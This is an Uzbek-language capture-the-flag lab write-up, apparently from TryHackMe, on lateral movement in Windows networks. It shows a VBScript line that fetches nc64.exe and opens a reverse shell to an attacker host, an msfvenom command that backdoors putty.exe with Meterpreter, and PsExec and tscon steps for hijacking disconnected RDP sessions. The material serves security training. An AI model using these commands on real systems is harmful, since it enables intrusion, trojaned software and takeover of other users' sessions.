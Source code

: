 ## 🧠 1. Foydalanuvchi harakatlarini suiste’mol qilish

Tizimdagi administrator yoki foydalanuvchi ba'zi ishlarni bajarayotganda hujumchi ularning faoliyatidan foydalanib tizimga kirishi mumkin. Bu quyidagilar orqali amalga oshiriladi:

---

## 📂 2. Yoziladigan (writable) Network Share'dan foydalanish

### ❓ Bu nima degani?

Kompaniyalarda tarmoqda ulashilgan papkalar (network share) bo‘ladi — masalan: `\\10.10.28.6\myshare`.

Agar bu papkaga yozish mumkin bo‘lsa, hujumchi unga zararli fayl yoki shortcut (`.lnk`) joylashtirishi mumkin.

### 🧪 Real misol:

#### ✅ `.vbs` faylga backdoor joylashtirish:

```vbscript
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

🧠 Bu script ochilganda:

1. `nc64.exe` yuklanadi va `%temp%` papkaga nusxa ko‘chiriladi.
2. So‘ng attackerga reverse shell ochiladi.

#### ✅ `.exe` faylni backdoor qilish (masalan, `putty.exe`):

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -b "\x00" -f exe -o puttyX.exe
```

🧠 Yangi `puttyX.exe` asl dastur kabi ishlaydi, lekin fon rejimida attackerga ulanish yuboradi.

---

## 🖥️ 3. RDP Session Hijacking

### ❓ Bu nima?

Administrator RDP orqali serverga ulanadi, lekin **log out** qilmaydi — shunchaki **oynani yopadi**. Bu holda sessiya **Disc. (disconnected)** holatda qoladi.

> Bu sessiyani **SYSTEM darajadagi foydalanuvchi** hijack qilishi mumkin — ya’ni **parolsiz boshqa sessiyaga ulanadi.**

---

## ✅ RDP Session Hijack bosqichlari

### 1. THMJMP2 ga **admin huquqi** bilan RDP orqali ulaning:

```bash
xfreerdp /v:thmjmp2.za.tryhackme.com /u:YOUR_USER /p:YOUR_PASSWORD
```

> Creds: `http://distributor.za.tryhackme.com/creds_t2`

---

### 2. `cmd.exe` ni administrator sifatida ishga tushiring

Windowsda: `Start` → `cmd` → `Run as administrator`

---

### 3. SYSTEM huquqini oling:

```cmd
C:\tools\PsExec64.exe -s cmd.exe
```

Bu sizga SYSTEM darajada buyruq oynasi ochadi.

---

### 4. Mavjud sessiyalarni ko‘ring:

```cmd
query user
```

Namuna natija:

```
USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
 t1_toby.beck                             5  Disc            .  4/6/2022 7:21 AM
```

🧠 "Disc" — bu sessiyalarni hijack qilish mumkin.

---

### 5. Sessiyani hijack qilish:

```cmd
tscon <Session_ID> /dest:<SIZNING_SESSION>
```

Agar sizning sessiyangiz `rdp-tcp#6` va hijack qilmoqchi bo‘lgan sessiya ID'si `5` bo‘lsa:

```cmd
tscon 5 /dest:rdp-tcp#6
```

🟢 Endi siz `t1_toby.beck` foydalanuvchisi nomidan sessiyani egallaysiz — hech qanday parolsiz.

---

## 🎯 Mashq: Flag olish

1. THMJMP2 ga RDP orqali admin sifatida kiring
2. SYSTEM sessiya oching (`PsExec64`)
3. `query user` buyrug‘i bilan `t1_toby.beck` sessiyalarini toping
4. `tscon` yordamida `Disc.` sessiyasini hijack qiling
5. Hijack qilingan sessiyada **Desktop** ichidan **flag.txt** ni o‘qing.

---

## 🔐 Muhim eslatmalar:

* Faqat **Disconnected (Disc.)** sessiyalarni hijack qiling — boshqalarning faol sessiyalariga aralashmang.
* Windows Server 2019 da bu usul ishlamaydi — parol kerak bo‘ladi.
* Yoziladigan tarmoq papkalari har doim xavf manbai bo‘lishi mumkin.
